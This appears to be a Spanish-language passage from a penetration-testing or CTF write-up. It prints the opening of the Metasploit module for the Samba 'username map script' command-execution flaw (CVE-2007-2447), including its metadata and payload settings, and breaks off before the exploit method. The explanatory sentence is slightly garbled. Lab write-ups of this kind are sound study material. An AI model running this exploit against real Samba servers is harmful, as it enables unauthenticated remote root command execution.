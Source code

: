 ```java
```
Con el contenido del exploit `unix/remote/16320.rb`, vemos que hace uso del comando `nohup` y hacer la carga me exploits mediante comandos.
```java
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking
    include Msf::Exploit::Remote::SMB
    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end
```